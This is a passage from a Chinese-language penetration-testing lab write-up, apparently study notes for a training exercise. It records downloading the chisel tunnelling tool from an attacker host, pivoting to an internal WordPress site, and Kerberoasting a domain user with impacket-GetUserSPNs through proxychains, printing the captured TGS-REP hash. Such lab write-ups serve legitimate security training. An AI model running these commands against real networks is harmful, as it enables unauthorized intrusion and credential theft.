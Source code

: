 ```
iwr -uri http://192.168.45.214:8888/chisel_x64 -Outfile chisel.exe
2025/03/11 15:01:46 client: Connecting to ws://192.168.119.5:8080
2025/03/11 15:01:46 client: Connected (Latency 11.0449ms)
```

2. 嘗試登入 WordPress
前往管理頁面 http://127.0.0.1/wordpress/wp-admin 會跳轉至 `internalsrv1.beyond.com`\
手動加入 `/etc/hosts`
```
┌──(chw㉿CHW)-[~/beyond]
└─$ vi /etc/hosts  
...
127.0.0.1    internalsrv1.beyond.com
```
打開 /wp-admin\
![image](https://hackmd.io/_uploads/BkEQ7rDn1l.png)

## Attacking an Internal Web Application
目標：
- 對 daniela 進行 Kerberoasting，取得 WordPress 登入密碼
- 濫用 WordPress Plugin，發動 NTLM Relay 攻擊，取得 MAILSRV1 的 SYSTEM 權限

### Speak Kerberoast and Enter
INTERNALSRV1 上的 Web Application 是目前最有希望的目標。因為是一個 WordPress 網站
#### Kerberoasting 取得 daniela 的密碼
- daniela 是 Kerberoastable
- SPN 是 `http/internalsrv1.beyond.com `，表示可能有 WordPress 管理權限
#### 1. 利用 impacket-GetUserSPNs 取得 TGS-REP Hash
```
┌──(chw㉿CHW)-[~/beyond]
└─$ proxychains -q impacket-GetUserSPNs -request -dc-ip 172.16.73.240 beyond.com/john

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName      Name     MemberOf  PasswordLastSet             LastLogon                   Delegation 
------------------------  -------  --------  --------------------------  --------------------------  ----------
http/internalsrv1.beyond.com  daniela            2025-03-11 16:17:20.062328  2025-03-11 16:59:48.376728             

[-] CCache file is not found. Skipping...
$krb5tgs$23$*daniela$BEYOND.COM$beyond.com/daniela*$4c6c4600baa0ef09e40fde6130e3d770$49023c03dcf9a21ea5b943e179f843c575d8f54b1cd85ab12658364c23a46fa53b3db5f924a66b1b28143f6a357abea0cf89af42e08fc38d23b205a3e1b46aed9e181446fa7002def837df76ca5345e3277abaa86...
2e430c5a8f0235b45b66c5fe0c8b4ba16efc91586fc22c2c9c1d8d0434d4901d32665cceac1ab0cdcb89ae2c2d688307b9c5d361beba29b75827b058de5a5bba8e60af3562f935bd34feebad8e94d44c0aebc032a3661001541b4e30a20d380cac5047d2dafeb70e1ca3f9e507eb72a4c7
```
> 成功取得 daniela 的 `TGS-REP Hash`
